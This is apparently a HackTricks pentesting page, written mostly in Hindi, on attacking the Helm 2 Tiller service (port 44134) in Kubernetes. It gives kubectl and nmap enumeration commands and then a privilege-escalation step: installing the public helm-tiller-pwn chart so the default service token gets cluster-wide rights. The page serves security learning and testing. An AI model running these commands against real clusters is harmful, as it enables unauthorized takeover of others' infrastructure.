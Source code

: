 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Basic Information

Helm **कubernetes** के लिए **पैकेज प्रबंधक** है। यह YAML फ़ाइलों को पैकेज करने और उन्हें सार्वजनिक और निजी रिपॉजिटरी में वितरित करने की अनुमति देता है। इन पैकेजों को **Helm Charts** कहा जाता है। **Tiller** वह **सेवा** है जो डिफ़ॉल्ट रूप से पोर्ट 44134 में चल रही है।

**डिफ़ॉल्ट पोर्ट:** 44134
```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```
# Enumeration

यदि आप विभिन्न नामस्थानों के **पॉड्स और/या सेवाओं को सूचीबद्ध कर सकते हैं**, तो उन्हें सूचीबद्ध करें और उन पर खोज करें जिनके नाम में **"tiller"** है:
```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```
उदाहरण:
```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```
आप इस सेवा को चलाते हुए पोर्ट 44134 की जांच करके भी खोजने की कोशिश कर सकते हैं:
```bash
sudo nmap -sS -p 44134 <IP>
```
एक बार जब आप इसे खोज लेते हैं, तो आप क्लाइंट हेल्म एप्लिकेशन डाउनलोड करके इसके साथ संवाद कर सकते हैं। आप `homebrew` जैसे टूल का उपयोग कर सकते हैं, या [**आधिकारिक रिलीज़ पृष्ठ**](https://github.com/helm/helm/releases)** को देख सकते हैं।** अधिक विवरण के लिए, या अन्य विकल्पों के लिए, [स्थापना गाइड](https://v2.helm.sh/docs/using\_helm/#installing-helm) देखें।

फिर, आप **सेवा की गणना कर सकते हैं**:
```
helm --host tiller-deploy.kube-system:44134 version
```
## Privilege Escalation

डिफ़ॉल्ट रूप से **Helm2** को **namespace kube-system** में **उच्च विशेषाधिकार** के साथ स्थापित किया गया था, इसलिए यदि आप सेवा को खोजते हैं और इसमें पहुंच रखते हैं, तो यह आपको **विशेषाधिकार बढ़ाने** की अनुमति दे सकता है।

आपको बस इतना करना है कि एक पैकेज स्थापित करें जैसे कि यह: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) जो **डिफ़ॉल्ट सेवा टोकन को पूरे क्लस्टर में सब कुछ एक्सेस करने की अनुमति देगा।**
```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```
In [http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) में आपके पास **हमले का विवरण** है, लेकिन मूल रूप से, यदि आप फ़ाइलें [**clusterrole.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrole.yaml) और [**clusterrolebinding.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrolebinding.yaml) _helm-tiller-pwn/pwnchart/templates/_ के अंदर पढ़ते हैं, तो आप देख सकते हैं कि **सभी विशेषाधिकार डिफ़ॉल्ट टोकन को दिए जा रहे हैं**।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

